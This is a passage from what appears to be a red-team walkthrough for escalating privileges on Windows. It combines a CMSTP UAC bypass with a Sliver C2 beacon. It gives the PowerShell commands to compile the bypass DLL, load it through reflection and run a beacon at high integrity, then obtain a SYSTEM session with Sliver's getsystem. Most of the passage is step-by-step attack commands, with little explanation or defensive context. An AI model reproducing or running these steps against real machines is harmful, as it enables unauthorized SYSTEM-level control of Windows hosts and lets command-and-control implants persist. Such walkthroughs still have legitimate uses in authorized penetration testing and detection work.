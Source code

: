 ```
}
```

2. Compile the code to .dll with the following command:

```
Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -ReferencedAssemblies "System.Windows.Forms" -OutputAssembly "CMSTP-UAC-Bypass.dll"
```

![](./images/privilege-escalation/1-compile-dll.PNG)

3. Read the class in the CMSTP-UAC-Bypass.dll file to the variable: 

```
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\CMSTP-UAC-Bypass.dll"))
```

![](./images/privilege-escalation/7-read-variable.PNG)
The class will then be accessible and can be used within the script. 

4. The `Execute` method is used to run the Sliver beacon and write a payload file into the temp directory. 

```
[CMSTPBypass]::Execute("C:\to\beacon\location\caddy_beacon.exe")
```

![uac](./images/privilege-escalation/3-uac-bypass-execution.png)

This will initialise a high integrity cmd.exe popup on the target machine.

5. The command `getsystem` can now be used in Sliver to start a new system session. 

![getsystem](./images/privilege-escalation/5-getsystem.PNG)

6. The command `beacon` displays active beacons. The system account is selected with the `use [PID]` command. 
